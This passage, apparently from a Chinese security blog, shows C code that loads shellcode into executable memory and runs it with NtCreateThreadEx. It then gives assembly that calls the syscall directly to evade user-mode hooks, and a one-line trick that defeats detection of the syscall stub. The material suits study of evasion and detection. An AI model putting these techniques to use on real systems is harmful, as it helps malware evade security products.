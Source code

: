      void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT,  
      PAGE_EXECUTE_READWRITE);  
     memcpy(exec, shellcode, sizeof shellcode);  
     HMODULE hModule = LoadLibrary(L"ntdll.dll");  
     pHandle = GetCurrentProcess();  
     NtCreateThreadEx(&tHandle, 0x1FFFFF, NULL, pHandle, exec, NULL, FALSE,  
      NULL, NULL, NULL, NULL);  
     Sleep(1000);  
     CloseHandle(tHandle);  
     CloseHandle(pHandle);  
    }  
    

通过汇编直接NtCreateThreadEx在函数种通过syscall进入ring0

![](https://gitee.com/fuli009/images/raw/master/public/20230104154244.png)

    
    
    .code  
      
    NtCreateThreadEx proc  
       mov r10,rcx  
       mov eax,0C5h  
       syscall  
       ret  
    NtCreateThreadEx endp  
      
    end  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230104154245.png)![](https://gitee.com/fuli009/images/raw/master/public/20230104154247.png)![](https://gitee.com/fuli009/images/raw/master/public/20230104154248.png)

通过procmon进行监控

![](https://gitee.com/fuli009/images/raw/master/public/20230104154253.png)

此时直接通过我们的主程序进入ring0

## syscall的检测与绕过

ntdll中syscall被执行的格式大致

    
    
    mov r10, rcx  
    mov eax, *syscall number*  
    syscall  
    ret  
    

我们可以通过检测`mov r10, rcx`类似的代码来确定程序是否直接进行系统调用。

但是很容易被bypass

    
    
    mov r11,rcx  
    mov r10,r11  
    